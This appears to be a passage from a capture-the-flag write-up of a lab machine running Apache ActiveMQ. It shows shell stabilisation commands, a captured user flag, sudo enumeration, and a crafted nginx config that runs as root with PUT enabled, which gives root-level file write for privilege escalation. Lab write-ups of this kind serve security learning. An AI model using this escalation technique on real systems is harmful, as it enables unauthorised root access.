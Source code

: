 We have our shell.

We can stabilize it using the following commands:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CRTL+Z
stty raw -echo; fg
export TERM=xterm
```

Let's check our `id`.

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

### User flag

We can now `cat` out the user flag.
```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
75589562fe900bf4de17fbaf4d55afb3
```

&nbsp;

## Post Exploitation

### Privilege escalation

We can check out the binaries that the `activemq` user can run as `sudo` using the following command:

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Let's build a new `.conf` file for the NGINX server.

```nginx title="/tmp/privesc.conf"
user root;
worker_processes 4;
pid /tmp/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```
